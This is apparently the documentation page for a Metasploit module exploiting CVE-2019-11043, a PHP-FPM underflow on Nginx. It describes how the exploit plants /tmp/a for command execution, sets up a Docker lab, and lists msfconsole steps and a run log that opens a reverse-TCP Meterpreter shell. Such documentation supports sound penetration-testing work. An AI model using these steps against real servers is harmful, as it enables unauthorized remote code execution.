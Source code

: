 This module exploits an underflow vulnerability in versions 7.1.x below 7.1.33,
7.2.x below 7.2.24 and 7.3.x below 7.3.11 of PHP-FPM on Nginx. Only servers
with certains Nginx + PHP-FPM configurations are exploitable. This is a port of
the original neex's exploit code (see refs.). First, it detects the correct
parameters (Query String Length and custom header length) needed to trigger
code execution. This step determines if the target is actually vulnerable
(Check method). Then, the exploit sets a series of PHP INI directives to create
a file (`/tmp/a`) locally on the target, which enables code execution through a
query string parameter (`?a=<cmd>`). This is used to execute normal payload
stagers. Finally, this module does some cleanup by killing local PHP-FPM
workers (those are spawned automatically once killed) and removing the created
local file (`/tmp/a`).

## Vulnerable Application
- Install Nginx on Linux (`apt-get install nginx`)
- get the vulnerable PHP:

```
git clone https://github.com/php/php-src
# checkout the fix
git -C php-src checkout ab061f95ca966731b1c84cf5b7b20155c0a1c06a
# checkout the commit previous to the fix
git -C php-src checkout HEAD~1
```

- make sure the default Nginx configuration contains these entries and no
  script existence checks (like `try_files`):

```
location ~ [^/]\.php(/|$) {
  ...
  fastcgi_split_path_info ^(.+?\.php)(/.*)$;
  fastcgi_param PATH_INFO       $fastcgi_path_info;
  fastcgi_pass   php:9000;
  ...
}
```

See original PoC for details: https://github.com/neex/phuip-fpizdam

An easiest way to setup a vulnerable instance is to use the docker
configuration provided by the author
(https://github.com/neex/phuip-fpizdam/tree/master/reproducer)

## Verification Steps

  Preparing the target:

  1. `git clone https://github.com/neex/phuip-fpizdam`
  2. `cd phuip-fpizdam/reproducer/`
  3. `docker build -t reproduce-cve-2019-11043 .`
  4. `docker run --rm -p 192.168.6.6:8080:80 --name reproduce-cve-2019-11043 reproduce-cve-2019-11043`

  Running the exploit:

  1. `./msfconsole`
  2. `use exploit/multi/http/php_fpm_rce`
  4. `set RHOSTS 192.168.6.6`
  5. `set RPORT 8080`
  4. `set TARGETURI /script.php`
  6. `set PAYLOAD php/meterpreter/reverse_tcp`
  7. `set LHOST 192.168.6.6`
  8. `run`

## Options

   **TARGETURI**
   Path to a PHP page (`/index.php` by default). This must be a valid page.

## Advanced Options

  **MinQSL**
  Minimum query string length (QSL). The QSL detection engine will iterate
  starting from this value (1500 by default). This option is required.

  **MaxQSL**
  Maximum query string length (QSL). The QSL detection engine will iterate
  until this value is reached (1950 by default). This option is required.

  **QSLHint**
  Query string length hint. This value will be used as a QSL candidate. Note
  that setting this value skips the QSL detection.

  **QSLDetectStep**
  Query string length detect step. The QSL detection engine will iterate with
  this step value (5 by default). This option is required.

  **MaxQSLCandidates**
  Maximum query string length candidates. When the number of QSL candidates
  found during the QSL detection phase is greater than this value (10 by
  default), this indicates that something went wrong and we were not able to
  detect the correct values. This option is required.

  **MaxQSLDetectDelta**
  Maximum query string length detection delta. This value is the maximum
  distance between the candidate and the extended values (10 by default). For
  example, with a value of 20 and QSLDetectStep set to 5, candidate [1700] will
  be extended to [1680, 1685, 1690, 1695, 1700]. This option is required.

  **MaxCustomHeaderLength**
  Maximum custom header length. This value is the maximum length that will be
  used for the custom header during the parameters detection (256 by default).
  This option is required.

  **CustomHeaderLengthHint**
  Custom header length hint. This value will be used as the custom header
  length. Note that setting this value skips the custom header length
  detection.

  **DetectMethod**
  Method that will be used to detect if the target is vulnerable. Available
  methods:

  1. `session.auto_start`: this method consist in setting the
  `session.auto_start` PHP option to 1. If the response contains `PHPSESSID=`
  set-cookie value, this means the PHP option has been correctly set and the
  target is vulnerable.
  2. `output_handler.md5`: this method consist in setting the `output_handler`
  PHP option to `md5`. If the response is a md5 hash (16 characters), this
  means the PHP option has been correctly set and the target is vulnerable.

  **OperationMaxRetries**
  Maximum of operation retries. Each operation will be repeated at most
  `OperationMaxRetries` times.

## Scenarios

### Ubuntu 18.04 + nginx 1.14.0 + PHP 7.1.33dev (fpm-fcgi) (built: Feb 14 2020 16:48:15)

```
msf5 > use exploit/multi/http/php_fpm_rce
msf5 exploit(multi/http/php_fpm_rce) > set RHOSTS 192.168.6.6
RHOSTS => 192.168.6.6
msf5 exploit(multi/http/php_fpm_rce) > set RPORT 8080
RPORT => 8080
msf5 exploit(multi/http/php_fpm_rce) > set TARGETURI /script.php
TARGETURI => /script.php
msf5 exploit(multi/http/php_fpm_rce) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf5 exploit(multi/http/php_fpm_rce) > set LHOST 192.168.6.6
LHOST => 192.168.6.6
msf5 exploit(multi/http/php_fpm_rce) > run

[*] Started reverse TCP handler on 192.168.6.6:4444
[*] Sending baseline query...
[*] Detecting QSL...
[+] The target is probably vulnerable. Possible QSLs: [1765]
[*] Doing sanity check...
[*] Detecting attack parameters...
[+] Parameters found: QSL=1760, customh_length=69
[+] Target is vulnerable!
[*] Performing attack using php.ini settings...
[+] Success! Was able to execute a command by appending 'which+which'
[*] Trying to cleanup /tmp/a...
[+] Cleanup done!
[*] Sending payload...
[*] Sending stage (38288 bytes) to 192.168.6.6
[*] Meterpreter session 1 opened (192.168.6.6:4444 -> 192.168.6.6:59177) at 2020-02-14 12:03:45 -0600
[+] Session created
[*] Remove /tmp/a and kill workers...
[+] Done!

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : 832efebeac57
OS          : Linux 832efebeac57 4.9.184-linuxkit #1 SMP Tue Jul 2 22:58:16 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```
